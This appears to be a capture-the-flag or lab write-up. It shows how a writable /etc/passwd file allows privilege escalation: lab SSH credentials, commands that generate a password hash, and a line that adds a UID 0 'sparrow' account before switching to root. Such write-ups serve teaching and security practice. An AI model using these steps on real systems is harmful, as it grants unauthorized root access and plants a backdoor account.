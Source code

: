 # Name: Web: Privilege Escalation: Writable

## Vulnerability

Writable ```/etc/passwd``` file.

## Exploit

Connect with ssh to user ```jack:YvFWPeC7sTWJdaYQ```, port 2022.

```ssh jack@<IP> -p 2022```

If you look at the ```/etc/passwd``` file we can see that our user account has read/write access.

```ls -la /etc/passwd```

What we can do is to generate a new password using one of the following commands:

```openssl passwd -1 -salt sparrow sparrow```

```mkpasswd -m SHA-512 sparrow```

```python2 -c 'import crypt; print crypt.crypt("sparrow", "$6$salt")'```

This will generate to you a new password which we will write to ```/etc/passwd``` file.

Add the following line:

```sparrow:GENERATED_PASSWORD:0:0:Sparrow:/root:/bin/bash```

Now you can switch the current user to the privileged ```sparrow``` user:

```su sparrow```

And you are root!
